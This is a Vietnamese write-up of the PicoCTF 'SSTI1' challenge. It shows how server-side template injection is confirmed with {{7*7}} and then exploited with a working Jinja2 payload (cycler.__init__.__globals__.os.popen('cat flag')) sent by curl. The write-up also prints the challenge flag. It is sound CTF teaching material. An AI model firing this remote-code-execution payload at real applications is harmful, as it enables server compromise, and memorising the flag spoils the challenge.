 # 🧠 Writeup: SSTI1 - PicoCTF 

> 🔖 Chủ đề: Server Side Template Injection (SSTI)  

---

## 📌 **Description**

> **_“I made a cool website where you can announce whatever you want! Try it out!_”**  
> Additional details will be available after launching your challenge instance.

> Khi truy cập vào challenge, ta thấy một giao diện trang web đơn giản cho phép người dùng nhập nội dung vào một ô và gửi thông điệp lên website.
![](../img/SSTI1.png)
---

## 💡 **Hint**

> **Server Side Template Injection**

Gợi ý này cho thấy khả năng tồn tại lỗ hổng **SSTI** trong quá trình render nội dung người dùng nhập vào.

---

## 🔍 **Solution**

Khi xem mã nguồn HTML của trang, ta phát hiện một form đơn giản cho phép nhập nội dung, điều này đặt nghi vấn rằng dữ liệu đầu vào của người dùng có thể được render trực tiếp trong một template engine phía server, rất có thể là Jinja2 nếu backend viết bằng Python:

```html
<form action="/" method="POST">
    What do you want to announce: 
    <input type="text" value="Hello">
    <input type="submit" value="Ok">
</form>
```
Ta thử nhập "Hello" và thấy sever chuyển hướng ta cùng với việc hiển thị nội dung lên màn hình : 
![](../img/SSTI1-output.png)
Server phản hồi với HTML có chứa dòng:
```html
<h1 style="font-size:100px;" align="center">Hello</h1>
```
Tiếp tục thử với payload phổ biến với SSTI là ``{{7*7}}``, ta nhận được kết quả là : 
![](../img/SSTI1-output-payload.png)
---

Sau khi xác định được hệ thống tồn tại lỗ hổng Server-Side Template Injection (SSTI), ta tiếp tục thử nghiệm khai thác trên một instance mới tại địa chỉ:

``http://rescued-float.picoctf.net:63974/``

Đầu tiên, ta tiến hành kiểm tra xem lỗ hổng còn hoạt động hay không bằng cách gửi một yêu cầu đơn giản sử dụng lệnh:
```bash
#curl -X POST -d "content=Hello" http://rescued-float.picoctf.net:63974/ -L
```
Kết quả phản hồi:
```
┌──(root㉿kali)-[~]
└─# curl -L -X POST -d "content=Hello" http://rescued-float.picoctf.net:63974/

                <!doctype html>
                <h1 style="font-size:100px;" align="center">Hello</h1>
```
Điều này xác nhận rằng dữ liệu đầu vào từ người dùng vẫn được render trực tiếp trong template — một dấu hiệu rõ ràng của SSTI đang tồn tại.
Tiếp theo, ta thử khai thác RCE (Remote Code Execution) bằng cách sử dụng payload đã được chứng minh hiệu quả trong môi trường sử dụng Jinja2, cụ thể:

``
curl -L -X POST -d "content={{ cycler.__init__.__globals__.os.popen('cat flag').read() }}" http://rescued-float.picoctf.net:63974/
`` 

Kết quả trả về từ server như sau:
```
┌──(root㉿kali)-[~]
└─# curl -L -X POST -d "content={{ cycler.__init__.__globals__.os.popen('cat flag').read() }}" http://rescued-float.picoctf.net:63974/

                <!doctype html>
                <h1 style="font-size:100px;" align="center">picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_df9a00a0}</h1> 
```

Flag thu được là: ``picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_df9a00a0}``
